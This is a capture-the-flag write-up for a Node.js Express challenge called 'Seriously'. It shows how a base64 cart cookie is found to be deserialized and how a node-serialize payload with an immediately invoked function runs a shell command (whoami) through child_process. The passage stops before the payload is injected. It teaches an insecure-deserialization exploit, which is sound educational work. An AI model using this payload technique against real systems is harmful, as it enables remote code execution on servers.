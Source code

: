 ## Seriously by sAINT_barber

Descrpition: 

<img src="images/image17.png" width="450">

I did not solve this challenge during the CTF, but i didnt find a good enough writeup explaing the vulnerability.

Im guessing from the many instances of the challenge there should be some sort of RCE, and guessing the word Seriously sounds a little like Serialize? But anyway on to the solution.

After viewing the site and intercepting some requests i noticed the response header: `X-Powered-By: Express` so the application is running nodejs. And once we add something to our cart it creates a cookie containing the items in the cart : `eyJpdGVtcyI6eyIwIjp7Im5hbWUiOiJEcmFjYWVuYSB0cmlmYXNjaWF0YSIsInByaWNlIjoxNC45OSwiY291bnQiOjF9fX0%3D`

Once decoded: `{"items":{"0":{"name":"Dracaena trifasciata","price":14.99,"count":1}}}`

If we edit our cookie to something that cannot be deserialized, eg.: `{"items":{"0":{"name":"Dracaena trifasciata","p` the Go to Cart section will not render properly. From that alone we know that our cookie is being deserialized

I googled a bit about node js deserialization and found this website explaining the exploit perfectly: `https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/`

Like many deserialization exploits on various languages (PHP, Python) we need to craft some code to be executed when provoked after going through the unserialize() function.

Create a small node js script to serialize an object with key `rce` and value a function that executes `whoami`:

```
var y = {rce : function(){require('child_process').exec('whoami', function(error, stdout, stderr) { console.log(stdout) });},}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
Running the script prints the serialized payload:

<img src="images/image18.png" width="650">

To execute the function immediately we can add an open close bracket an the end of our function. This is called  Immediately invoked function expression (IIFE):

```
var y = {rce : function(){require('child_process').exec('whoami', function(error, stdout, stderr) { console.log(stdout) });}<b>()</b>,}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

Running this will Immediately invoke our function executing `whoami`:

<img src="images/image19.png" width="650">


